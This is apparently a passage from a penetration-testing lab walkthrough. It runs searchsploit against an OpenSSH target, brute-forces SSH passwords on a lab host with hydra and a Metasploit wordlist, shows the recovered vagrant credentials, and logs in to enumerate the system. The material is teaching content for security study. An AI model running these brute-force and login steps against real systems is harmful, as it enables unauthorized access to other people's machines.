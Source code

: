 Before we do that, OpenSSH has a few vulnerabilities. However, most of them affect OpenSSH version 7.2.

```
searchsploit OpenSSH 7.1
```

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.26.161 ssh
```

```
[22][ssh] host: 10.0.26.161   login: vagrant   password: vagrant
```

That means we can gain access to the target system via SSH as we have obtained legitimate credentials. However, given the fact that we're a penetration tester, we really want the prized asset, which is accessed via the administrator account that will then provide us with elevated privileges right out of the box.

We can perform a brute force for the user administrator.

```
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.26.161 ssh
```

We can log in with the user account vagrant. And this will provide us with initial access on the target system.

```
ssh vagrant@10.0.26.161

vagrant
```

This should provide us with a bash session or a Bourne shell session, which is slightly weird because we are working on a Windows system.

We get a Bourne shell session.

```
-sh-4.3$ ls -al
-sh-4.3$ pwd
-sh-4.3$ whoami
```

We probably cannot do that, and there might be a few compatibility issues there.

```
-sh-4.3$ net localgroup administrator
```

But the main thing is that we've obtained access to the target system.

If you type in any Windows native commands like `dir`, that will probably not work.

```
-sh-4.3$ dir
```

So we've got access to the target via SSH, which means we've pretty much owned this system at this point.
